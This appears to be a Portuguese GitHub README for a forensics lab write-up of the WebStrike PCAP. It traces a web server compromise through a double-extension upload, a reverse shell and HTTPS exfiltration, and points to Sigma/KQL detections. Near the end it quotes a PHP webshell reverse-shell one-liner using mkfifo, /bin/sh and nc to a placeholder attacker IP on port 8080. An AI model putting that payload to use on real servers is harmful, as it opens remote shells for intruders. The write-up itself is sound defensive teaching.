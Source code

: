 # WebStrike — Network Forensics & Detections  
**Autor:** Ricardo Almeida · **GitHub:** @The-Black-Needles · **Data:** 29/09/2025

## Contexto
Recebi um **PCAP** (tráfego capturado) do **servidor web** da empresa. Meu objetivo foi **confirmar um possível comprometimento**, entender **como** aconteceu e produzir **evidências, detecções e recomendações** acionáveis.

## Como conduzi a investigação (meu raciocínio)
1) **Mapeei os hosts e fluxos** no PCAP (Wireshark → *Statistics > Endpoints*).
2) **Contextualizei a origem** com **GeoIP** do IP externo suspeito.
3) **Busquei POST multipart** (upload) e indícios de **dupla extensão** em `filename=`; observei uma primeira tentativa falha e uma segunda bem-sucedida com `*.jpg.php` (exemplo genérico).
4) **Inspecionei o script** para confirmar **reverse shell** e **conexão de saída**.
5) **Procurei exfiltração** (picos de bytes **HTTP/HTTPS**) e padrões de automação.
6) **Consolidei evidências** em **timeline**; criei **regras Sigma/KQL** e **relatórios** técnico/executivo com recomendações.

## Principais achados (generalizados, sem spoilers)
- **Entrada:** *Upload* malicioso via **dupla extensão** (`.jpg.php`) contornando validação.
- **Pós-exploração:** **Reverse shell** com **conexão de saída :8080** para IP externo.
- **Exfiltração:** **POST** em **443** com volume anômalo sugerindo envio de dados sensíveis.

## Recomendações objetivas (24–72h)
- **Bloquear IoCs** e saídas **:8080** não justificadas.
- **WAF/validação de upload:** negar **dupla extensão** e inspecionar `multipart`.
- **No-exec em `/uploads`** (impedir execução de scripts em diretórios de mídia).
- Reforçar **monitoramento/detecções** (Sigma/KQL) e perfis de **volume** em 443.

---

## Objetivos de investigação (sem spoilers)

<summary><b>O1 — Origem do tráfego suspeito (GeoIP)</b></summary>

**Pergunta:** de onde partiu a atividade maliciosa?  
**O que fiz:** levantei *top talkers* (Wireshark → Endpoints) e consultei **GeoIP** do IP externo.  
**Por que importa:** apoia *geo-blocking*, triagem de *threat intel* e contexto de risco.  
**Artefatos:** [`endpoints.txt`](20-network-analysis/tshark-commands.md) • [`timeline.md`](20-network-analysis/timeline.md)  
**Resposta:** **[omitida — no spoilers]**

<details><summary><b>O2 — Identificação do agente cliente (User-Agent)</b></summary>

**Pergunta:** qual *User-Agent* foi usado na interação inicial?  
**O que fiz:** reconstruí **HTTP Stream** e inspecionei cabeçalhos; comparei com perfis legítimos.  
**Por que importa:** ajuda a criar **regras de filtragem** e detectar *tooling* disfarçado.  
**Artefatos:** [`wireshark-filters.md`](20-network-analysis/wireshark-filters.md) • `report-technical.md`  
**Resposta:** **[omitida — no spoilers]**
</details>

<details><summary><b>O3 — Mecanismo de entrada (upload malicioso)</b></summary>

**Pergunta:** houve **upload de script** e como passou pela validação?  
**O que fiz:** filtrei `HTTP POST` multipart, busquei `filename=` e indícios de **dupla extensão**; confirmei sucesso do upload.  
**Por que importa:** evidencia **bypass de validação** e define **controles WAF**/hardening.  
**Artefatos:** [`web_upload_double_extension.yml`](30-detections/sigma/web_upload_double_extension.yml) • [`post_uploads.tsv`](20-network-analysis/tshark-commands.md)  
**Exemplo genérico:** `*.jpg.php` (exemplo **genérico**, não a resposta do lab).  
**Resposta:** **[omitida — no spoilers]**
</details>

<details><summary><b>O4 — Local de armazenamento de uploads</b></summary>

**Pergunta:** onde o aplicativo armazena os arquivos enviados?  
**O que fiz:** segui **redirects** (HTTP 3xx) e navegação pós-upload para inferir o diretório.  
**Por que importa:** permite **remediação** (limpeza) e **no-exec** no diretório de mídia.  
**Artefatos:** [`timeline.md`](20-network-analysis/timeline.md) • `report-technical.md`  
**Resposta:** **[omitida — no spoilers]**
</details>

<details><summary><b>O5 — Canal de comando e controle (reverse shell)</b></summary>

**Pergunta:** há **conexão de saída** para C2? qual **porta**?  
**O que fiz:** procurei padrões de **reverse shell** e conexões **outbound** atípicas; destaque para porta alta.  
**Por que importa:** base para **Egress Control** e detecção comportamental.  
**Artefatos:** [`reverse_shell_port_8080.kql`](30-detections/kql/reverse_shell_port_8080.kql) • `revshell.tsv`  
**Resposta:** **[omitida — no spoilers]**
</details>

<details><summary><b>O6 — Tentativa de exfiltração</b></summary>

**Pergunta:** houve **envio de dados sensíveis** via HTTP/HTTPS?  
**O que fiz:** busquei **POST/PUT** com **alto volume** e padrões de `curl`/automação; sinalizei artefatos sensíveis (ex.: `/etc/passwd` como **exemplo genérico**).  
**Por que importa:** prioriza **resposta a incidentes** e criação de **regras de exfil**.  
**Artefatos:** [`web_exfil_high_volume.kql`](30-detections/kql/web_exfil_high_volume.kql) • `http_posts.tsv`  
**Resposta:** **[omitida — no spoilers]**
</details>

---

## Como replicar (dados sintéticos)
Os artefatos abaixo incluem **consultas**, **regras** e **amostras sintéticas** para reproduzir consultas e visualizar o método, **sem** expor dados do laboratório.

- `20-network-analysis/` — filtros/extrações e timeline
- `30-detections/` — Sigma & KQL
- `50-reports/` — relatórios (técnico + executivo)

> **Licença:** MIT (apenas para o meu conteúdo autoral).  
> **Atribuição:** cenário inspirado no WebStrike Lab (link oficial na seção *references*).

---

## Análise do webshell (padrão de reverse shell — generalizado, sem spoilers)

Durante a inspeção do artefato de upload (webshell), identifiquei um **padrão clássico de reverse shell** em PHP
que orquestra FIFO em `/tmp` e inicia um shell interativo encaminhado via `nc` (*netcat*) para um **IP externo** e **porta alta**.

> **Snippet generalizado (placeholder):**
```php
<?php
system("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> 8080 >/tmp/f");
?>
```

- O comando `nc` indica **conexão de saída** para o **controlador** (C2).  
- A **porta-alvo** (no exemplo: **8080**) é um indicativo útil para **Egress Control** e detecção comportamental.
- Para fins de **ética/no-spoilers**, o endereço IP real foi substituído por `<ATTACKER_IP>`.

**Detecções relacionadas**
- [`reverse_shell_port_8080.kql`](30-detections/kql/reverse_shell_port_8080.kql) — monitoramento de conexões de saída para 8080.
- [`reverse_shell_nc_command.yml`](30-detections/sigma/reverse_shell_nc_command.yml) — detecção de *payloads* de upload contendo sequência de **FIFO + /bin/sh + nc** (quando o *logsource* captura corpo da requisição).
